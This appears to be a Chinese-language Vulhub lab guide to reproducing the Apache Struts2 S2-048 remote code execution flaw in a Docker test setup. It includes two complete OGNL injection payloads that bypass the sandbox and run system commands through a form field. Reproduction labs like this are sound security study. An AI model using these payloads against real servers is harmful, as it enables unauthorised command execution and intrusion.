 # S2-048 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.32

漏洞详情: 

 - http://struts.apache.org/docs/s2-048.html
 - http://bobao.360.cn/learning/detail/4078.html
 - http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/

## 测试环境搭建

```
docker-compose up -d
```

## 漏洞复现

原理详见参考文档，这里只说一下当前环境。

这个环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

访问Integration/Struts 1 Integration：

![](https://github.com/vulhub/vulhub/blob/master/struts2/s2-048/01.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

![](https://github.com/vulhub/vulhub/blob/master/struts2/s2-048/02.png)

借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![](https://github.com/vulhub/vulhub/blob/master/struts2/s2-048/03.png)

当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
